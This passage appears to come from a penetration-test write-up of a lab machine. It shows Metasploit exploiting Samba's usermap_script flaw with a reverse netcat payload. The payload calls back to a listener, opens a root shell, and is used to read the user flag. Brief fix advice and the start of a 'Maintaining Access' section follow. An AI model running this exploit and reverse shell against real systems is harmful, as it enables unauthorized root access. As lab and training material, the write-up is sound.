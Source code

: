 ```

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.171    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost tun0
lhost => tun0
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.3:48318) at 2021-03-09 19:59:14 +0100

whoami
root
ls /home
ftp
makis
service
user
ls /home/makis
user.txt
cat /home/makis/user.txt 
```

Now we have root access on the box and we can read both the user and the root flags:

![ImgPlaceholder](screenshots/flags.png)

**Vulnerability Fix:**

Upgrade vsFTP, Samba, change service accounts, setup SELinux, migrate box to newer version, setup updates.

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.
